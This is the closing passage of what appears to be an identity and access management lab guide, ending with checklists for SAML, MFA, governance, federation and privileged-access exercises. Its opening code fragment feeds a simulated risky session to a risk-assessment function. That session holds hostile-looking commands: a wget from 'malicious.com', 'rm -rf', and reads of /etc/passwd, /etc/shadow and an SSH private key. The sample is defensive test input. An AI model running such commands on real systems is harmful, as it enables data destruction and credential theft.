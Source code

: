 ```bash
  --param user '{"email":"admin@company.com","role":"administrator"}' \
  --param activity '{
    "commands": ["sudo rm -rf /tmp/*", "wget http://malicious.com/script.sh", "python -c \"import os; os.system(\"\"cat /etc/passwd\"\")\""],
    "files": ["/etc/passwd", "/etc/shadow", "/home/user/.ssh/id_rsa"],
    "dataTransfer": {"bytes": 2000000000}
  }' \
  --result
```

**✅ Exercise 5 Validation**:
- [ ] JIT access function deployed
- [ ] Access request workflow tested
- [ ] Session monitoring active
- [ ] Risk assessment working
- [ ] Security alerts configured

---

## Lab Summary and Cleanup

### **Lab Completion Checklist**

**✅ Exercise 1: Enterprise Directory Integration**
- [ ] SAML federation configured
- [ ] Enterprise users provisioned
- [ ] Attribute mapping working
- [ ] Federation metadata accessible

**✅ Exercise 2: Advanced Authentication**
- [ ] MFA enabled and enforced
- [ ] Conditional access policies active
- [ ] Risk-based authentication working
- [ ] Authentication flows tested

**✅ Exercise 3: Identity Governance**
- [ ] User provisioning automated
- [ ] Access reviews implemented
- [ ] Lifecycle management working
- [ ] Compliance reporting active

**✅ Exercise 4: Federated Identity**
- [ ] Multiple providers configured
- [ ] SSO applications registered
- [ ] Federation endpoints tested
- [ ] Cross-provider authentication working

**✅ Exercise 5: Privileged Access Management**
- [ ] JIT access implemented
- [ ] Session monitoring active
- [ ] Risk assessment working
- [ ] Audit logging configured
